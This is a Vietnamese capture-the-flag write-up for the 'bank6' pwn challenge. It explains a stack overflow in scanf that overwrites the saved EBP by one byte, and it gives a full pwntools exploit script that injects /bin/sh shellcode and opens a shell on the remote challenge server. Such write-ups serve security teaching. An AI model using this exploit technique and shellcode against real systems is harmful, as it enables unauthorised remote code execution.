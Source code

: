 # bank6
## Đề bài
```c
void Register()
{
  char name[1024]; // [esp+Ch] [ebp-40Ch]
  int balance; // [esp+40Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Here is a gift: %p\n", name);
  printf("[+] Please enter your name: ");
  __isoc99_scanf("%1036s", name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```
- Sau khi debug và thử nhập input với độ dài 1036 byte thì nhận thấy rằng địa chỉ thanh ghi `EBP` sau khi `leave` bị mất 1 byte cuối
- Hơn nữa lại biết địa chỉ của biến `name`, lợi dụng điều này thì có thể chèn shellcode vào input, sau đó tính địa chỉ shellcode khi thanh ghi `EBP` bị thay đổi để thực thi đoạn `shellcode` đó
- Shellcode thì có thể tự code, nhưng để cho nhanh thì có thể kiếm đại 1 shellcode /bin/sh x86 nào đó quăng vào và thực thi

## Script
```python3
from pwn import *

r = remote('61.28.237.24', 30207)

print(r.recvuntil('Here is a gift: '))
input_addr = int(r.recvline(), 16)
ebp_addr = (input_addr + 1036 + 16)
new_ebp_addr = (ebp_addr & ~ 0xff) + 4

payload = b'A' * (new_ebp_addr - input_addr)
# print(len(payload))
payload += p32(new_ebp_addr + 4)
payload += b'\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\xC2\x34\xC9\xCD\x80'
payload += (1036 - len(payload)) * b'A'
r.sendline(payload)
r.interactive()
```

Flag: HCMUS-CTF{0ff_by_on3}